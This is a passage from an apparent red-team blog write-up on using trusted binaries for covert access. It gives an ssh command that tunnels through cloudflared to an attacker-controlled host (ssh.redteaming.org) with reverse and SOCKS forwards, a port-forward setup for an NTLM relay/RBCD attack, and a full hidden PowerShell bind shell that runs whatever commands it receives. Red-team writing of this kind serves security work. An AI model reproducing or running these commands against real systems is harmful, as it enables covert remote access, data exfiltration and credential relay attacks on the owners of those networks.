This ssh command uses "cloudflared" to transport the data out but also opens up a reverse port forward and a socks proxy on 1080 back on Kali. Obviously at this point you also need a ssh client set up on your Kali VM. You could also use a ssh key file, use -f and -N to not execute commands and to lock down your ssh server so that the access is limited but for illustrative purposes I am just logging in to show you how it works.

Using proxychains pointed at port 1080 we can then access the remote machine as follows:

<img src="/assets/img/BSides7.jpg" width="200"/>

You may wonder what happens on the hostname side of things when I am using ssh.redteaming.org. All that happens there can be seen in the following image whereby any data hitting ssh.redteaming.org I redirect it into my port 22 of my Kali VM to allow the ssh traffic inbound.

<img src="/assets/img/BSides8.jpg" width="200"/>

For the eagle eyed amongst you it may have been spotted that I was using the in-built ssh which means that relying on a system having ssh breaks one of my 5 tests mentioned earlier.

I learned that bringing the trusted ssh binary to a system is quite easy so if you go to [OpenSSH on Github](https://github.com/powershell/Win32-OpenSSH) you can bring the ssh binary to a system and it works quite well. All you have to ensure is to also put the libcrypto.dll into the same folder as the ssh.exe binary to make it operational.

Another thing I found quite useful when investigating trusted binaries is that using both the cloudflared and ssh binaries they could be easily used to forward ports. If for example you wanted to coerce a webclient to your host on port 8888 then forward it back to port 80 on Kali where ntlmrelayx is listening to perform a RBCD style attack. This is all done over port 443 too for added OPSEC. This can be achieved with the following command: 

{% highlight powershell %}
ssh.exe -o ProxyCommand="cloudflared.exe access ssh --hostname %h" david@ssh.redteaming.org -L 0.0.0.0:8888:localhost:80
{% endhighlight %}

When you have your tunnel up and running it is also good to know that you can easily achieve command line access over the tunnel with either a PowerShell bindshell running on localhost or bringing another trusted binary such as sshd to a system. 

{% highlight powershell %}
Start-Process -WindowStyle Hidden -FilePath powershell -ArgumentList "-NoProfile -Command & {`$listener=[System.Net.Sockets.TcpListener]::
new([System.Net.IPAddress]::
Loopback,9000); `$listener.Start(); `$client=`$listener.AcceptTcpClient(); `$stream=`$client.GetStream(); `$reader=[System.IO.StreamReader]::new(`$stream); `$writer=[System.IO.StreamWriter]::new(`$stream); `$writer.AutoFlush=`$true; while (`$client.Connected) { `$writer.Write('PS ' + (Get-Location).Path + '> '); `$command=`$reader.ReadLine(); if (`$command -eq 'exit') { break }; try { `$output=Invoke-Expression `$command 2>&1 | Out-String; `$writer.WriteLine(`$output) } catch { `$writer.WriteLine('Error: `$_.Exception.Message') } }; `$listener.Stop(); `$client.Close() }"
{% endhighlight %}

Then when the bind listener is running you can connect to it via proxychains:

<img src="/assets/img/BSides9.jpg" width="200"/>
